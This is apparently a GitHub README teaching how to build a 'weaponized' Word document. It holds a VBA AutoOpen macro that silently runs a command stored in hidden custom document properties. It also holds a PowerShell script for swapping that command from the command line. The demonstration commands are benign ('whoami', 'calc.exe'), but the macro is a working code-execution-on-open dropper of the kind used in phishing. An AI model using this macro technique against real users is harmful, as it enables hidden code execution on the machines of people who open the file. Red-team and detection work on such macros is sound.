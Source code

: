 # Office_Macros_With_Hidden_Functionalities
## Summary
Inspired by the recent Offensive Security post https://www.offensive-security.com/offsec/macro-weaponization/ I thought it would be beneficial to make some minor modifications to this so that it could be updated from the command line using PowerShell #ClickingStuffIsHard #TheGUIWasAMistake. 

## Create Document Template
1. Create a new word document. 
![Create New Document](images/1.png)

2. Select `View`, `Macros`, `View Macros`.
![View Macros](images/2.png)

3. Enter a name for the macro in the `Macro name:` field. Ensure that the `Macros in:` field is set to be the current document (Document1) likely if the document is new and hasn't yet been saved. Select `Create`. 
![Create Macro](images/3.png)

4. Copy & Paste the code below into the codebox and click on the `Save` icon.
![Create Macro](images/4.png)
```vb
Sub AutoOpen()
    chapel
End Sub
Sub chapel()
    Dim strProgramName As String
    Dim strArgument As String
    Set doc = ActiveDocument
    strProgramName = doc.CustomDocumentProperties("cmd").Value
    strArgument = doc.CustomDocumentProperties("argument").Value
    Call Shell("""" & strProgramName & """ """ & strArgument & """", vbHideFocus)
End Sub
```

5. If prompted to save the document somewhere, In this example I will use the location `C:\temp\cmd_exec.docx`. Also set the `Save as type:` field to be `Word Macro-Enabled Document (*.docm)`. 
![Create Macro](images/10.png)

6. Click the `X` to close the Macro dialog box. 
![Create Macro](images/11.png)

7. Create Custom properties. Go to `File`, `Info`, `Properties`, `Advanced Properties`.
![Create Macro](images/5.png)

8. Select the `Custom` tab. In the `name` field enter `cmd`, in the `value` field enter `cmd.exe` then click `Add`
![Create Macro](images/6.png)
![Create Macro](images/7.png)

8. In the `name` field enter `argument`, in the `value` field enter `/c whoami` then click `Add`
![Create Macro](images/8.png)

9. Once both values have been added, Click OK to close the `Properties` dialog box. 
![Create Macro](images/9.png)

9. Save the document, for this example I have saved it to `C:\temp\cmd_exec.docm`. 
![Create Macro](images/12.png)

## PowerShell

```powershell
# Initiate Word
$Word = New-Object -ComObject Word.Application
# Set Word to be visible
$Word.Visible = $true
# Open the template document (Modify the directory if different)
$Document = $Word.Documents.Open('C:\temp\cmd_exec.docm')

$binding = "System.Reflection.BindingFlags" -as [type];        
$CustomProperties = [System.__ComObject]$Document.CustomDocumentProperties
            [Array]$propertyName = "cmd"
            [Array]$propertyValue = "calc.exe"
            #Get property value
            $myProperty = [System.__ComObject].InvokeMember("Item", $binding::GetProperty, $null, $customProperties, $propertyName)
            $myPropertyValue  = [System.__ComObject].InvokeMember("value",$binding::GetProperty,$null,$myProperty,$null);
            #Set property value
            [System.__ComObject].InvokeMember("Value",$binding::SetProperty,$null,$myProperty,$propertyValue)
```